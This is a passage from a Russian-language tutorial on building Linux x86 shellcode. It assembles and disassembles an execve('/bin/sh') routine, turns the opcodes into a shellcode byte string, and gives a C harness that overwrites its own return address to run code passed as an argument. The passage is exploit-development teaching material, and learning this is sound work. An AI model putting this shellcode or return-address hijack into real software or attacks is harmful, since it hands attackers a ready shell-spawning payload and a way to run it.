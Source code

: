 Компилируем

```assembly
nasm -f elf execve.asm;
```

Линукем

```
ld -m elf_i386 -s -o my_execve execve.o
```

Делаем дамп

```
objdump -d exit_asm

my_execve:     file format elf32-i386

Disassembly of section .text:

08048060 <.text>:
 8048060:	31 c0                	xor    %eax,%eax
 8048062:	31 db                	xor    %ebx,%ebx
 8048064:	31 c9                	xor    %ecx,%ecx
 8048066:	31 d2                	xor    %edx,%edx
 8048068:	b0 0b                	mov    $0xb,%al
 804806a:	b7 68                	mov    $0x68,%bh
 804806c:	b3 73                	mov    $0x73,%bl
 804806e:	c1 c3 08             	rol    $0x8,%ebx
 8048071:	b3 2f                	mov    $0x2f,%bl
 8048073:	53                   	push   %ebx
 8048074:	68 2f 62 69 6e       	push   $0x6e69622f
 8048079:	89 e3                	mov    %esp,%ebx
 804807b:	cd 80                	int    $0x80
```

Во втором столбце находятся opcode's. Опкоды это шестнадцатеричное представление бинарного кода, который будет выполнять процессор. Именно эти опкоды используются во всех шеллкодах. Поэтому мы их все берем по порядку и записываем в строку

```
printf "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x0b\xb7\x68\xb3\x73\xc1\xc3\x08\xb3\x2f\x53\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80" > shellcode
```

Чтобы протестировать наш шеллкод, напишем программу, которая просто начинает выполнять код, который был передан в качестве входного аргумента. Этим кодом, в далнейшем, вы можете тестировать работу своих шеллкодов.

```c
int main(int argc, char **argv) 
{
	int *ret;
	ret = (int *)&ret + 2;
	(*ret) = (int)argv[1];
}
```
